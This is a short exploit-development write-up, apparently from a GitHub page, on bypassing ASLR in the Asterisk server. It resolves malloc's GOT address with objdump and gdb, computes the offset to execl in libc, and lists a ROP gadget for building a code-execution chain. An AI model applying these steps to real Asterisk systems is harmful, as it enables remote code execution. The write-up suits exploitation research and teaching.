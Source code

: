 ### malloc

Check address of malloc:
```
dobin@minime:~/Desktop/sip$ objdump -R asterisk | grep malloc
0815324c R_386_JUMP_SLOT   malloc@GLIBC_2.0
```

Note: the following commands need to be executed after malloc() get resolved by asterisk. So it is not enough just to do "gdb asterisk", but you have to attach to a running asterisk process.

Address of malloc inside the plt:
```
(gdb) x/1x 0x0815324c
0x815324c <malloc@got.plt>:	0xb7438160
```

Address of malloc in libc mapped in process:
```
(gdb) x/1x 0xb7438160
0xb7438160 <malloc>:	0x0ce85356
```

### execl

Check the addresses of execl and malloc in libc:
```
user@tinysploit2:~$ objdump -T /lib/libc-2.17.so | egrep "malloc|execl"
...
000b9090 g    DF .text	0000016a  GLIBC_2.0   execl
00079160 g    DF .text	00000136  GLIBC_2.0   malloc
...
```

Calculate offset between malloc and execl:
```
dobin@minime:~$ printf "%x\n" $((0x000b9090-0x00079160))
3ff30
```

Test the offset while debugging asterisk:
```
(gdb) x/1x 0x0815324c
0x815324c <malloc@got.plt>:	0xb74cd160
(gdb) x/4x 0xb74cd160+3ff30
0xb750d090 <execl>:	0x53565755	0x102cec81	0x848b0000	0x00104424
```

Success!

So, to get address of execl in the exploit in the address space of asterisk:
- get address of malloc: `mov reg, [0x0815324c]`
- mov offset to execl to a register: `mov reg2, 0x3ff30`
- `add reg2, reg`, so reg2 has now the execl() offset


I use this gadget for add:
```
0x081187df: add eax, dword ptr [ebx + 0x5e5b5cc4]; pop edi; pop ebp; ret;
```
EBX (address of system) has to be adjusted accordingly.
